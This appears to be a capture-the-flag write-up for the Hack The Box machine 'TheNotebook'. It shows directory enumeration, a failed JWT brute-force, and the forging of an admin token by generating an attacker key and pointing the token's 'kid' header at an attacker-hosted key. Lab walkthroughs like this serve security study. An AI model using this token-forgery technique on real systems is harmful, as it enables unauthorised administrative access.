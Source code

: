 # Process 

# Information about vulnerability: 
```
Target: http://10.129.145.23/

Output File: /home/kali/Desktop/tools/dirsearch/reports/10.129.145.23/21-05-01_23-20-41

[23:20:41] Starting: 
[23:21:06] 403 -    9B  - /admin
[23:22:45] 200 -    1KB - /login
[23:22:46] 302 -  209B  - /logout  ->  http://10.129.145.23/
[23:23:33] 200 -    1KB - /register
```

lOGIN TO http://10.129.145.23/login
test
test

![image](https://user-images.githubusercontent.com/13290445/117746363-90c05a00-b1c9-11eb-8c4f-731270078023.png)




## Initial Shell 

JWT Token:

Login request:

```
POST /login HTTP/1.1
Host: 10.129.145.23
Content-Length: 27
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.129.145.23
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.129.145.23/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly9sb2NhbGhvc3Q6NzA3MC9wcml2S2V5LmtleSJ9.eyJ1c2VybmFtZSI6InRlc3QiLCJlbWFpbCI6InRlc3RAdGVzdC5odGIiLCJhZG1pbl9jYXAiOmZhbHNlfQ.mE10x1sbOBWS4rqeWirvPh4USRfZyEAz4parlbs2TC5-FoiMMcyylbMBIvh-u2YHcl6Vd3HcTmboTSDQyaXBHhXMsmXu2gswha-TzpLkUhyiMDfZODNzxoRWVrzUDtDp6urU2_nhHHEnGIFUv3aEo56JfiUQs36m3bTe2IZXShGwLcVgWGhT58Bh1fbpvUhbdXNQmKCmWlMaJ50rhHhn3hylEAZkR0aMSjAP5nMaAXRwKwL1jWizZ_nButaUIC_qC0Jn69_7jEMCvt2N-XAsm4i2tjQ8rlBSkiWfmZ0DTcxEYsn10g8VbTphCdh73smWftaZdbMEbRDb8AKZKtEMQP5UgaHI8Y3gnLkQA5K0cuVaczm-xKwHCYUULWcTre4pJ6e7N2-MKf0oAMDWr-3C1BSOJ-yhaVnJpwjiAzTOjtElLihjvJ-Sc4mxcVLWCNxZ9XpZAjz6QMMRtEaWU9cDSCpobujTiOP99jNS9_ETVLFaJLChnCzskdT7Gu4Uz7XnUAUBn-UbpztH04iQgPvrMjlDMT_9XX-FSkLNs1ZDMA9PUpZrFZGJi6loGnXLxBa8x8JalidEbrO9xTOmHzW3b7i694v4qTviZcx3ub_xRE4THv8i1plHJb61oAgt2v_4Xt_um_Inx3lEp1pzscq7A-s9NK5Tgike0agY-Z_-YRQ; uuid=f570e243-c7c9-4512-9e70-0415cc266b2b
Connection: close

username=test&password=test
```

https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens

```
kali@kali:~/Documents/HTB/theNotebook/jwt_tool$ python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly9sb2NhbGhvc3Q6NzA3MC9wcml2S2V5LmtleSJ9.eyJ1c2VybmFtZSI6InRlc3QiLCJlbWFpbCI6InRlc3RAdGVz
dC5odGIiLCJhZG1pbl9jYXAiOmZhbHNlfQ.mE10x1sbOBWS4rqeWirvPh4USRfZyEAz4parlbs2TC5-FoiMMcyylbMBIvh-u2YHcl6Vd3HcTmboTSDQyaXBHhXMsmXu2gswha-TzpLkUhyiMDfZODNzxoRWVrzUDtDp6urU2_nhHHEnGIFUv3aEo56JfiUQs36m3bTe2IZXShGwLcVgWGhT58Bh1fbpvUhbdXNQmKCmWlMaJ50rhHhn3hylEAZkR0aMSjAP5nMaAXRwKwL1jWizZ_nButaUIC_qC0Jn69_7jEMCvt2N-XAsm4i2tjQ8rlBSkiWfmZ0DTcxEYsn10g8VbTphCdh73smWftaZdbMEbRDb8AKZKtEMQP5UgaHI8Y3gnLkQA5K0cuVaczm-xKwHCYUULWcTre4pJ6e7N2-MKf0oAMDWr-3C1BSOJ-yhaVnJpwjiAzTOjtElLihjvJ-Sc4mxcVLWCNxZ9XpZAjz6QMMRtEaWU9cDSCpobujTiOP99jNS9_ETVLFaJLChnCzskdT7Gu4Uz7XnUAUBn-UbpztH04iQgPvrMjlDMT_9XX-FSkLNs1ZDMA9PUpZrFZGJi6loGnXLxBa8x8JalidEbrO9xTOmHzW3b7i694v4qTviZcx3ub_xRE4THv8i1plHJb61oAgt2v_4Xt_um_Inx3lEp1pzscq7A-s9NK5Tgike0agY-Z_-YRQ

        \   \        \         \          \                    \ 
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
 Version 2.2.3                \______|             @ticarpi      

Original JWT: 

=====================
Decoded Token Values:
=====================

Token header values:
[+] typ = "JWT"
[+] alg = "RS256"
[+] kid = "http://localhost:7070/privKey.key"

Token payload values:
[+] username = "test"
[+] email = "test@test.htb"
[+] admin_cap = False

----------------------
JWT common timestamps:
iat = IssuedAt
exp = Expires
nbf = NotBefore
----------------------
```

Crack attempt 1: 

```
kali@kali:~/Documents/HTB/theNotebook/c-jwt-cracker$ time ./jwtcrack eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly9sb2NhbGhvc3Q6NzA3MC9wcml2S2V5LmtleSJ9.eyJ1c2VybmFtZSI6InRlc3QiLCJlbWFpbCI6InRlc3RAdGVzdC5odGIiLCJhZG1pbl9jYXAiOmZhbHNlfQ.mE10x1sbOBWS4rqeWirvPh4USRfZyEAz4parlbs2TC5-FoiMMcyylbMBIvh-u2YHcl6Vd3HcTmboTSDQyaXBHhXMsmXu2gswha-TzpLkUhyiMDfZODNzxoRWVrzUDtDp6urU2_nhHHEnGIFUv3aEo56JfiUQs36m3bTe2IZXShGwLcVgWGhT58Bh1fbpvUhbdXNQmKCmWlMaJ50rhHhn3hylEAZkR0aMSjAP5nMaAXRwKwL1jWizZ_nButaUIC_qC0Jn69_7jEMCvt2N-XAsm4i2tjQ8rlBSkiWfmZ0DTcxEYsn10g8VbTphCdh73smWftaZdbMEbRDb8AKZKtEMQP5UgaHI8Y3gnLkQA5K0cuVaczm-xKwHCYUULWcTre4pJ6e7N2-MKf0oAMDWr-3C1BSOJ-yhaVnJpwjiAzTOjtElLihjvJ-Sc4mxcVLWCNxZ9XpZAjz6QMMRtEaWU9cDSCpobujTiOP99jNS9_ETVLFaJLChnCzskdT7Gu4Uz7XnUAUBn-UbpztH04iQgPvrMjlDMT_9XX-FSkLNs1ZDMA9PUpZrFZGJi6loGnXLxBa8x8JalidEbrO9xTOmHzW3b7i694v4qTviZcx3ub_xRE4THv8i1plHJb61oAgt2v_4Xt_um_Inx3lEp1pzscq7A-s9NK5Tgike0agY-Z_-YRQ

No solution found :-(

real    552m14.812s
user    2193m40.510s
sys     2m33.734s
```

https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens

![image](https://user-images.githubusercontent.com/13290445/117746473-b9485400-b1c9-11eb-8e18-51214fff41fa.png)


1. Generate the Certificate
```
openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout attacker.key -out attacker.crt
openssl x509 -pubkey -noout -in attacker.crt > publicKey.pem
```
2. Copy the Public.pem and the attacker.key to jwt.io to generate the new Token, also change the admin to 1 and the server to reitrive the key from your local system:

![image](https://user-images.githubusercontent.com/13290445/117746550-d2510500-b1c9-11eb-9e60-df308742514c.png)

![image](https://user-images.githubusercontent.com/13290445/117746566-dbda6d00-b1c9-11eb-83da-2f7a10447e3f.png)


New token:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly8xMC4xMC4xNC43OTo4MDgxL3B1YmxpY0tleS5wZW0ifQ.eyJ1c2VybmFtZSI6InRlc3QiLCJlbWFpbCI6InRlc3RAdGVzdC5odGIiLCJhZG1pbl9jYXAiOjF9.5lOJndGjxKGg1VSD90pmV3PV7zSFQgyeSJsTG1rY-P7gXQ2USOfCRq0ophVQSM10eVl1GGxG44lzI0KaVvp-t50FQ-X_PiAIqAKxP7L9UYOxhD-zD5x_TIoyDUFNvB3QobzXIKhz3jwBQ1eut9VLH_qpoN0AbVMvUrJ7JDyx3vjFjI6xxyp6cwuTPbue1NQHUkLF2MiPTT6s0iP5BuT9VpKiLbh5uDsMYJ6SWkISVOqMvKoQOqVgP0NWQZSsqkhEdpG_IwsBv_72c87bGp1DHHyIQbeEEWKtw8QkxfROmo6kvkWj010rI1iQ3T6gy0m9DrinGzqGoAvmqCajbnOw6g
```

![image](https://user-images.githubusercontent.com/13290445/117746611-eb59b600-b1c9-11eb-975a-c29c339c86b0.png)

